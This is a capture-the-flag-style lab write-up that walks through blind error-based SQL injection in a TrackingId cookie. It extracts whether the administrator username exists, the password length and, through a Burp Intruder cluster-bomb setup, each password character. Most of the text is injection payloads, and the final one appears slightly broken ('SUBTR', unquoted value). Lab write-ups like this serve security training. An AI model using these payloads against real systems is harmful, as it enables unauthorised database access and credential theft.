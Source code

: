 It’s time to exploit this behavior to test conditions

## Exploit

1. Identify the username

```
Cookie: TrackingId=POg3wIWYdQVhZtLp'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='test')||'
```

Verify that the error message does not appear → The username `test` is not exist. Submit the one that is mentioned in the Lab’s instruction (`administrator`)

```
Cookie: TrackingId=POg3wIWYdQVhZtLp'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

The error message appears → The `administrator` exists

```html
<h4>Internal Server Error</h4>
<p class=is-warning>Internal Server Error</p>
```

1. Identify the password length

```
Cookie: TrackingId=POg3wIWYdQVhZtLp'||(SELECT CASE WHEN LENGTH(password)>1 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

This should return the error message → The password has more than 1 character → Replace the number `1` to the greater until the server does not return any error ⇒ The password length is equal to that number. For example:

```
Cookie: TrackingId=POg3wIWYdQVhZtLp'||(SELECT CASE WHEN LENGTH(password)>20 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

At number `20` , the error message disappears → The length of password is `20`

1. Determine the character of each positions

Send the current request to `Intruder` tab in BurpSuite → Modify the request using `SUBSTR` → Insert the payload marker

```
Cookie: TrackingId=POg3wIWYdQVhZtLp'||(SELECT CASE WHEN SUBTR(password,§1§,1)=§a§ THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

Choose the `Attack type` to `Cluster Bomb` to run the attack with multiple payload sets
